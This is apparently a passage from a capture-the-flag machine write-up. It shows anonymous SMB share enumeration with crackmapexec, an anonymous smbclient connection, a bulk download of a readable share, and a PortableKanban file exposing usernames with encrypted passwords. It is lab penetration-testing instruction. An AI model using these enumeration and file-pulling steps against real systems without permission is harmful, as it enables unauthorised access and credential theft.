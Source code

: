 Enumerating SMB shares with **Null authentication**:
```
crackmapexec smb 10.10.10.219 --shares -u '' -p ''
```
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
dev                             
IPC$                            Remote IPC
kanban          READ
```

The share _kanban_ has read permissions:
```
smbclient -N //10.10.10.219/kanban

smb: \> dir
```

In there are around 23 files consisting of DLL, PK3, BAK files and one ZIP file.
Downloading all files:
```
smb: \> mget *
```

Decompressing the ZIP file _pkb.zip_:
```
unzip pkb.zip
```

The archive has similar filenames and also a compiled EXE file _PortableKanban.exe_.
As these are executable files on Windows, lets start an SMB client to access and analyze the files on **Commando VM**:
```
impacket-smbserver -smb2support -user anyone -password Super1Secure2Pass share $(pwd)
```

### Analyzing Executable

The file _PortableKanban.pk3_ contains some kind of credentials:
```
(...)
"Id": "e8e29158d70d44b1a1ba4949d52790a0",
"Name": "Administrator",
"EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==",
"Role": "Admin",

"Id": "0628ae1de5234b81ae65c246dd2b4a21",
"Name": "lars",
"EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",
"Role": "User",
(...)
```
